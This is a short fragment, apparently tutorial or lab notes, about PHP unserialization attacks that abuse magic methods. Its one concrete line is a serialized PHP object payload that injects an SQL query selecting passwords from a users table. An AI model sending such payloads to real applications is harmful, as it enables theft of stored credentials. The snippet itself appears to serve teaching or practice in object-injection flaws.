 Babysteps:

unserialization code execution with PHP magic methods file data rewrite.

O:2:"SQL":1:{s:5:"query";s:26:"select password from users";}

